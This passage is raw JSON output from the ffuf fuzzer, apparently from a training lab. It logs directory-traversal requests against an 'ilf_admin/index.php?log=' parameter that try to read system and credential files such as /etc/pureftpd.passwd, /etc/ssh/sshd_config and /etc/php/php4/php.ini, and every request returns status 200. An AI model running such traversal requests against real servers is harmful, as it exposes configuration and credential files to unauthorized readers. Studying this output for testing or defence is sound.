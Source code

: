 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44981064,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php/php4/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf542","FUZZ":"/etc/printcap"},"position":66,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44881674,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/printcap","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf545","FUZZ":"/etc/proftpd/proftpd.conf"},"position":69,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44229460,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/proftpd/proftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf543","FUZZ":"/etc/profile"},"position":67,"status":200,"length":2284,"words":199,"lines":112,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44908904,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/profile","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54b","FUZZ":"/etc/pure-ftpd/putreftpd.pdb"},"position":75,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43820538,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/pure-ftpd/putreftpd.pdb","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54c","FUZZ":"/etc/redhat-release"},"position":76,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44129799,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/redhat-release","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf547","FUZZ":"/etc/pureftpd.passwd"},"position":71,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45404377,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/pureftpd.passwd","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf548","FUZZ":"/etc/pureftpd.pdb"},"position":72,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45398746,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/pureftpd.pdb","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54a","FUZZ":"/etc/pure-ftpd/pure-ftpd.pdb"},"position":74,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45032344,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/pure-ftpd/pure-ftpd.pdb","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf546","FUZZ":"/etc/pure-ftpd.conf"},"position":70,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46140911,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/pure-ftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf544","FUZZ":"/etc/proftp.conf"},"position":68,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":47027865,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/proftp.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54d","FUZZ":"/etc/resolv.conf"},"position":77,"status":200,"length":2152,"words":155,"lines":105,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44785323,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/resolv.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf549","FUZZ":"/etc/pure-ftpd/pure-ftpd.conf"},"position":73,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46059090,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/pure-ftpd/pure-ftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54e","FUZZ":"/etc/samba/smb.conf"},"position":78,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45705268,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/samba/smb.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54f","FUZZ":"/etc/snmpd.conf"},"position":79,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45980520,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/snmpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf550","FUZZ":"/etc/ssh/ssh_config"},"position":80,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45551877,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ssh/ssh_config","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf551","FUZZ":"/etc/ssh/sshd_config"},"position":81,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;
